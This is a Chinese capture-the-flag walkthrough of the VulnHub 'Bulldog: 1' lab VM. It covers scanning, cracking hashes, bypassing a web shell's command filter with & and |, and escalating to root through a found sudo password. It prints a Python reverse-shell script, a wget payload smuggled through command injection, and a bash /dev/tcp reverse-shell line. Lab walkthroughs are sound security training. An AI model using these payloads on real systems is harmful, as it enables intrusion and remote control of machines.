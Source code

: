# 原创
：  VulnHub渗透测试实战靶场 - Bulldog: 1

# VulnHub渗透测试实战靶场 - Bulldog: 1

#### VulnHub渗透测试实战靶场 - Bulldog: 1

## 环境下载

> 
戳此进行[环境下载](https://download.vulnhub.com/bulldog/bulldog.ova)


## Bulldog: 1靶机搭建

> 
具体步骤参考[VirtualBox(Host only)和VMware共用同一虚拟网卡](https://blog.csdn.net/LYJ20010728/article/details/119395324?spm=1001.2014.3001.5501)



> 
获取到IP地址为：`192.168.56.101`


## 渗透测试

### 信息搜集

> 
用Kali自带的Nmap扫描目标IP：`sudo nmap -sS -A 192.168.56.101`，发现开放了`23、80、8080`端口


> 
用`dirsearch`对web目录进行扫描：`python3 dirsearch.py -u 192.168.56.101 -e *.php`


### 漏洞挖掘

> 
访问80端口


> 
用`whatweb`进行web站扫描：`whatweb http://192.168.56.101/`，发现是Django建站


```
http://192.168.56.101/ [200 OK] Bootstrap, Country[RESERVED][ZZ], maybe Django, HTML5, HTTPServer[WSGIServer/0.1 Python/2.7.12], IP[192.168.56.101], JQuery, Python[2.7.12], Script, Title[Bulldog Industries], X-Frame-Options[SAMEORIGIN]

```

> 
依次访问扫描到的web目录


<img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/c22a40e8af5f4f98913eada571811a92.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center"/><br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/cc8778e277b741b292ee14c6a66e785f.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center"/><br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/9e7a3d9c5eef43a9a47be6a17135dc8f.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center"/>

> 
测试后发现，`robots.txt`页面没有什么有用的信息，`/admin`无法注入成功，在`/dev`发现一些可疑的hash值，解密后发现


```
6515229daf8dbdc8b89fed2e60f107433da5f2cb
破解失败
38882f3b81f8f2bc47d9f3119155b05f954892fb
破解失败
c6f7e34d5d08ba4a40dd5627508ccb55b425e279
破解失败
0e6ae9fe8af1cd4192865ac97ebf6bda414218a9
破解失败
553d917a396414ab99785694afd51df3a8a8a3e0
破解失败
ddf45997a7e18a25ad5f5cf222da64814dd060d5
bulldog
d8b8dd5e7f000b8dea26ef8428caf38c04466b3e
bulldoglover

```

> 
尝试用得到的两组数据进行登录，发现可以用`sarah:bulldoglover`进行登录，登陆进去后使用web-shell


> 
给了6个可用的命令，执行其他的命令会被拦截，这里用`&amp;`或者`|`进行命令组合绕过，也可以用`echo`来绕过


<img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/e4ace806b1fd4bccb4a29d0ab7ae5345.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center"/><br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/657cda5bd3d74ea0831dd63ab3fe9793.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center"/>

### getshell

> 
发现可以成功绕过限制后，在Kali上用python起一个HTTP服务器：`python2 -m SimpleHTTPServer 80`，将把shell文件放到网站目录下，通过靶机下载用python写的shell反弹脚本


```
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("192.168.56.102",1234))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/bash","-i"])

```

> 
Payload：`pwd&amp;&amp;wget http://192.168.56.102/shell.py`，成功下载到shell文件


> 
起一个监听：`nc -nvvlp 1234`，执行Payload：`pwd&amp;&amp;python shell.py`，成功反弹shell


> 
补充一下用`echo`绕过的话反弹shell的姿势：`echo ‘bash -i &gt;&amp; /dev/tcp/192.168.56.102/12340&gt;&amp;1’|bash`


### 提权

> 
首先用`whoami`、`uname -a`、`cat /etc/issue`查看一下有没有可以利用的信息


> 
翻阅目录查找信息，在`/home/bulldogadmin/.hiddenadmindirectory/customPermissionApp`中找到sudo的密码：`SUPERultimatePASSWORDyouCANTget`


> 
提升权限至root：`sudo python -c 'import pty;pty.spawn("/bin/bash")'`

